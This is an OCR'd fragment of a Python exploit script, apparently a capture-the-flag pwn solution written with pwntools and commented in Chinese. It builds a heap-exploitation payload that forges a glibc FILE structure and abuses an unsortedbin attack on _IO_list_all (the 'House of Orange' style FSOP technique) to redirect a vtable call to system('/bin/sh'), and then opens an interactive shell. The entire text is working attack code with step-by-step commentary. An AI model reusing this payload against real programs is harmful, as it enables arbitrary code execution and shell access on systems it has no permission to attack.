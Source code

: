 ```python
    _IO_list_all = libc.sym['_IO_list_all']
    payload = b'A' * 0x200
    # 伪造的 _IO_list_all
    f = FileStructure()
    # 这是最终调用的函数的参数
    f._IO_buf_base = next(libc.search(b'/bin/sh\x00'))
    # 为了构造满足_IO_OVERFLOW的条件之一
    # 另一个条件是_mode<=0,这个条件需要堆地址的后32位大于0x80000000
    # 因此成功的概率大约为1/2
    f._IO_write_ptr = 1
    # vtable实际指向的是_IO_str_jumps（pwntools中无法直接导出这个符号）-8
    # 因此当检测到溢出时本来应该调用_IO_overflow_t，而实际调用的是_IO_finish_t
    # 而在_IO_finish_t会调用[fp+0E8h]所指向的函数指针，参数为_IO_buf_base
    f.vtable = libc.sym['_IO_file_jumps'] + 192 - 8
    print(f)
    print(len(bytes(f)))
    # 这里是构造_IO_finish_t会调用[fp+0E8h]所指向的函数指针
    f = bytes(f).ljust(0xe8, b'\x00') + p64(libc.sym['system'])
    # prev_size size
    # 0x61是为了整理unsorted chunk时将其加入到smallbin[6]中（这个偏移正好对应fp对象的chains字段）
    # 因此这块被覆盖的chunk相当于是一个伪造的fp对象
    payload += p64(0) + p64(0x61)
    # 利用unsortedbin attack将_IO_list_all指向的内容修改为unsortedbin head地址
    payload += p64(0) + p64(_IO_list_all-0x10)
    # 由于伪造的fp前0x20个字节为前面的4个字段，因此只取之后的内容继续填充
    payload += f[0x20:]
    print(payload)
    edit(2, payload)

    #pause()
    io.sendlineafter('>> ', '1')
    io.sendlineafter(': ', '%d' % 4)
    # 再执行一个malloc命令
    # 1. 遍历unsortedbin将被修改过的chunk加入到smallbin中（发生了unsortedbin attack）
    # 2. libc检测到溢出报错，调用_IO_flush_all_lockp
    # 第一次check不通过，通过chains字段继续执行
    # 调用_IO_overflow_t，实际调用的是_IO_finish_t,实现system("/bin/sh")
    io.sendlineafter(': ', '%d' % 0x100)
    #pause()
    io.interactive()
    pause()
```
